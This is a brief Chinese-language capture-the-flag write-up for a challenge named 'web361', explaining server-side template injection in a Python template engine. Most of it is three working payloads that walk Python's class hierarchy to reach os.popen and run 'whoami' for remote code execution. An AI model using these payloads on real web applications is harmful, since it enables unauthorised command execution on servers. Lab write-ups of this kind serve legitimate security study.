

# web361

ssti注入,就是用调用模板中内置的类,方法实现rce
[SSTI.emind](../../../思路/SSTI.emind)


```
name={{"".__class__.__base__.__subclasses__()}}
```
找到


序号要-1

```
name={{"".__class__.__base__.__subclasses__()[132]}}
```

之后调用其内部的popen函数

```
?name={{"".__class__.__base__.__subclasses__()[132].__init__.__globals__.popen('whoami').read()}}
```

获取flag

